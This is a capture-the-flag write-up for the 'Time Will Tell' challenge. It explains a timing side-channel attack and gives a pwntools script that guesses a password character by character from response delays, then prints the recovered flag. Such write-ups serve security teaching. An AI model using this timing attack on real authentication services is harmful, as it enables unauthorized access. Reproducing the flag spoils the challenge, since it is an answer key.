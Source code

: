 # Time Will Tell ✅

## Challenge Description
> ![image](https://github.com/user-attachments/assets/280bfe07-686e-46ea-8889-c65f8f9b7daf)

## Approach

1. This attack relies on detecting tiny timing differences when interacting with the server. Here’s how it works:
   - 1. We start by sending a guess to the server.
     2. If the guess begins with a correct character, the server’s response time increases slightly.
     3. By measuring this time difference, we can figure out the correct character for each position.
   
   Think of it like picking a lock: we try one pin at a time, listening carefully for the click that tells us we’ve got it right.

2. To make the attack efficient, we used a script to automate the guessing process. Here’s the code:
```python
from pwn import *
import time

# Set up the connection to the server
r = remote('challenge.ctf.games', 30545)
# r = remote('localhost', 1337)

# Receive initial messages
initial_message = r.recvuntil(b': ')
print(initial_message.decode())  # Print the initial message

# Initialize the password variable
password = b'aaaaaaaa'  # Start with a default guess

# Start with a base threshold for timing
base_time = 0.35

# Loop through each position in the password
for position in range(8):
    found_character = False  # Flag to check if the character is found

    for char in '0123456789abcdef':  # Possible characters
        guess = password[:position] + bytes(char, 'utf-8') + password[position + 1:]  # Update the guess
        print(f"Trying guess: {guess.decode()}")  # Print current guess

        # Measure the time taken to send the guess and receive the response
        start_time = time.time()
        r.sendline(guess)  # Send the current guess

        # Wait for the response
        response = r.recvline()  # Receive the response line
        end_time = time.time()

        # Print the response and the time taken
        print(response.decode())  # Print the server's response
        threshold = end_time - start_time
        print(f"Time taken for guess '{guess.decode()}': {threshold:.6f} seconds")

        # Check if the response time indicates a correct character
        if threshold > base_time:
            print(f"Character '{char}' at position {position} is likely correct.")
            password = guess  # Update the password with the correct character
            found_character = True
            base_time += 0.1  # Increase the threshold for the next character
            print(f"Updated base time: {base_time:.2f}")
            break  # Move to the next character position

    # If no character was found for this position, notify
    if not found_character:
        print(f"No correct character found at position {position}.")
        break  # Exit if no valid character was found

# Final output
print(f"Cracked password: {password.decode()}")
```
   
## Flag: 
flag{74235a9216ee609538022e6689b4de5c}




   


